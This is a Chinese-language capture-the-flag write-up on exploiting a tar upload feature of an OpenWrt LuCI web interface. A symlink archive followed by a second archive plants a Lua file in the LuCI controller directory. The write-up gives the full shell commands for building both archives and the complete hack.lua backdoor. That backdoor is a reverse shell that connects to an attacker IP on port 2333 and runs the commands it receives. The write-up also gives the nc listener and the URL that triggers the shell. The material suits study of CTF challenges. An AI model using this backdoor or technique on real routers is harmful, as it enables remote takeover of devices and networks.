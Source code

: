 # level3-untar writeup
## 过程
* 根据题目提示可知，上传 tar 文件后，后台服务器会将文件解压放在 /tmp/upload
  * 首先想要利用 tar 文件的名字构造命令，但是不行，可能是因为服务器将上传的文件统一命名。
  * 利用解压后存放在 /tmp/upload 的文件构造一句话木马
* 首先先构造软链接，由于 openwrt lua luci架构，将软链接定位到 /usr/lib/lua/luci/contorller/admin 目录下，这样后续将木马放在这，可以在网页端访问
* 之后创建 link 目录,在该目录下存放木马文件 hack.lua，打包为 tar 文件
* ```shell
    ln -s /usr/lib/lua/luci/controller/admin/ link
    tar -cvf 1.tar.gz link
    rm link
    mkdir link
    cd link && cat ../hack.lua > hack.lua
    cd ..
    tar -cvf 2.tar.gz link
    ```
* 将两个文件按顺序上传后，即可链接植入的后门
* ```lua
    -- hack.lua
    module("luci.controller.admin.hack", package.seeall)

    local socket = require("socket")
    local ip='192.168.66.132'
    function index()
        entry({"admin", "hack"}, call("action_hack"))
    end

    function action_hack()
        local sock = socket.tcp()
        sock:settimeout(20)  -- 设置超时时间为20秒

        local ok, err = sock:connect(ip, 2333)
        if not ok then
            luci.http.write("Failed to connect to the remote server: " .. err)
            return
        end

        while true do
            local data, err, partial = sock:receive()
            if data then
                local f = io.popen(data, "r")
                local b = f:read("*a")
                f:close()
                sock:send(b)
            elseif err == "timeout" then
                luci.http.write("Timeout while receiving data")
                break
            elseif err == "closed" then
                break
            else
                luci.http.write("Error while receiving data: " .. (err or ""))
                break
            end
        end

        sock:close()
    end
    ```
* 在 kali 上`nc -lvvp 2333`,然后在浏览器访问 `http://address/cgi-bin/luci/admin/hack`，连接成功，利用命令得到 flag
  ![hack](./img/hack.jpg)
  
  ![flag](./img/flag.jpg)
## exp 利用说明
* 在 untar 目录下运行 untar.py 即可，确保 hack.lua 在同一目录下
* 根据命令行提示，给出对应参数
* 根据自己主机ip地址修改 untar.py 代码中的 listen_host 参数